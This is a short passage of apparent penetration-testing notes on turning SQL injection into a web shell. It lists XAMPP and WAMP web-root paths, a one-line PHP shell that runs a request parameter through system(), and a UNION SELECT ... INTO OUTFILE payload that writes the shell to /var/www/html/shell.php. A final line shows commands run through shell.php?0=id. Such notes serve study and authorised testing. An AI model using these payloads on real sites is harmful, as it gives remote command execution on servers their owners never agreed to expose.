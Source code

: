 ```
c:\xampp\htdocs\
c:\wamp\www
```

### Writing a Web Shell

- can write the following to be able to execute commands directly on the back-end server

```php
<?php system($_REQUEST[0]); ?>
```

```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```
- requesting with above code and then next request be like `url/shell.php?0=id` will execute the id command

